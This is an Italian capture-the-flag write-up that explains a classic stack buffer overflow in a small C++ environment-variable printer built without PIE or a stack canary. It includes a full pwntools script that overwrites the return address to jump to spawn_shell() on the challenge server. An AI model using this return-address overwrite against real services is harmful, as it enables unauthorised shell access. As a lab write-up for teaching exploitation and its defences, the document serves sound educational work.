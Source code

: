 # Writeup: SS_2.02 - 1996

## Descrizione
La challenge fornisce un semplice programma C/C++ (compilato con opzioni **-no-pie** e **-fno-stack-protector**) che:

1. Legge il nome di una variabile d'ambiente da input:
   ```cpp
   cin >> buf;
   ```
2. Stampa la variabile:
   ```cpp
   cout << buf << "=" << getenv(buf) << endl;
   ```
3. Non ci sono altre protezioni, e lo stack non è protetto da canary.

Il **main** contiene un buffer `buf[1024]`, ma nessun controllo sulla lunghezza dell’input. Ciò permette di **sovrascrivere** l’indirizzo di ritorno e forzare l’esecuzione della funzione `spawn_shell()`:

```cpp
void spawn_shell() {
    char* args[] = {(char*)"/bin/bash", NULL};
    execve("/bin/bash", args, NULL);
}
```

---

## Panoramica dell’Exlpoit

1. **Overflow dello stack**: Possiamo inserire più di 1024 byte e riscrivere l’indirizzo di ritorno della funzione `main`.
2. **Jump a `spawn_shell()`**: Modificando l’indirizzo di ritorno, puntiamo alla funzione `spawn_shell()` per ottenere una shell interattiva.

### Dettagli

- **No PIE**: L’indirizzo di `spawn_shell()` è statico e conosciuto (es. 0x400897).
- **No Stack Protector**: Nessun canary a bloccare l’overflow.
- **64-bit**: Per l’indirizzo, usiamo `p64(0x400897)` (little-endian, 8 byte).

---

## Codice di Exploit

```python
from pwn import *

host = '1996.challs.cyberchallenge.it'
port = 9121

# Connettiamoci al servizio remoto
conn = remote(host, port)

# Prepariamo il payload
# 1) Padding per sovrascrivere fino al return address
padding = b'A' * 1048

# 2) Indirizzo di spawn_shell() (64-bit, little-endian)
spawn_shell_addr = p64(0x400897)

# 3) Payload finale
payload = padding + spawn_shell_addr

# Invia il payload
conn.sendline(payload)

# Passa alla modalità interattiva per usare la shell
conn.interactive()
```

### Spiegazione dei Numeri
- **1048 byte di padding**: Bisogna determinare la distanza tra l’inizio di `buf` e l’indirizzo di ritorno. Se si tratta di 1024 per `buf`, più 8 per l’RBP e altri 8 per l’RIP, si arriva a 1040, 1048 o simili a seconda di come è compilato.  
  - Se 1048 funziona, allora sovrascrive correttamente l’indirizzo di ritorno.  
- **Indirizzo 0x400897**: Ricavato analizzando il binario (ad esempio con `objdump -d` o `nm`).

---

## Risultato

Dopo aver inviato il payload, il programma eseguirà `spawn_shell()` e otterremo una shell su `1996.challs.cyberchallenge.it`.

---

## Lezioni Apprese

1. **Buffer Overflow Classico**: L’assenza di canary e la disabilitazione di PIE consentono un exploit old-style, simile a quelli pre-ASLR.
2. **No PIE**: L’indirizzo delle funzioni è fisso, facilitando la costruzione di ROP o jump diretti.
3. **Overflow su Variabile Locale**: Inserendo input oltre 1024 byte, si sovrascrive lo stack frame e si modifica l’indirizzo di ritorno.
4. **Attenzione alle Strutture**: Anche un programma apparentemente semplice, che legge e stampa variabili d’ambiente, può essere vulnerabile se non limita la lunghezza dell’input.

---

*Writeup by Luca Crippa - Last Updated: 2024*
